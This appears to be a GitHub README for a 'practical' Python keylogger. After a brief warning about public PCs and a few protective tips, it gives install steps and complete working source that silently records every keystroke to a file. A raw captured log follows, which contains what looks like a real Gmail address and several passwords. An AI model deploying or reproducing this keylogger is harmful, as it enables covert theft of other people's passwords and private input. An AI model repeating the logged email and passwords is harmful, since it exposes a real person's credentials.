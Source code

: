# Keylogger-practical

keylogger 
store all what you type.

-->in cyber cafe and other public pc is dangerous for us..

--->be sahe use virtual keyboarf, update system,antikeyloger install.

1..in powershell after installation of python..
2..type pip install pynput


from pynput.keyboard import Listener

def log_keystroke(key):
    key = str(key).replace("'", "")
    
    if key == "Key.space":
        key = " "
    elif key == "Key.enter":
        key = "\n"
    elif key.startswith("Key."):
        key = f"<{key[4:]}>"

    with open("log.txt", "a") as file:
        file.write(key)

with Listener(on_press=log_keystroke) as listener:
    listener.join()

    log.txt output of keylogger script run in powershell

    gmKey.rightKey.downKey.down
kKey.backspacekeylogger Key.down
Key.shift_rKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.media_volume_downKey.rightKey.rightKey.rightKey.rightKey.rightKey.rightKey.rightKey.rightKey.rightKey.leftKey.leftemail pandeyshrushtyKey.shift@gmail.com

password  2004srushKey.shift@1234notpsKey.backspacead log.txt
Key.leftKey.leftKey.upKey.leftKey.leftKey.leftKey.leftKey.leftKey.leftKey.leftKey.leftKey.leftKey.lefteKey.backspaceKey.backspaceep
Key.up
jhjhjhgjgfhgjfjk;kKey.downKey.up
Key.leftKey.leftKey.leftKey.leftKey.leftKey.leftKey.ctrl_l\x03Key.ctrl_l\x16 not shoe my keylogger likrKey.backspacee what things i do in my laptop that
poKey.shift_r





Key.up
 Key.left
jjkjbjbjhbjhhbjhhhg
bhgftftr






Key.downKey.up
Key.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceKey.backspaceemail.py  shrushtyKey.shift@123
Key.alt_lKey.tabKey.alt_lKey.tabKey.ctrl_l\x03Key.alt_lKey.tabKey.alt_lKey.tabKey.tabKey.ctrl_l\x16Key.ctrl_l\x16  nothing shoe in here
Key.alt_lKey.tabKey.ctrl_l\x16Key.alt_lKey.tabKey.alt_lKey.tabKey.alt_llogs.py<backspace><backspace><backspace><backspace><alt_l><tab><alt_l><tab><alt_l><tab><tab>.tc<backspace>xt
notpad log.txt<left><left><left><left><left><left><left><left><left><left><left><backspace>te
shrushty<shift>@1234








<ctrl_l>\x01\x03<alt_l><tab><ctrl_l>\x03<alt_l><tab>b

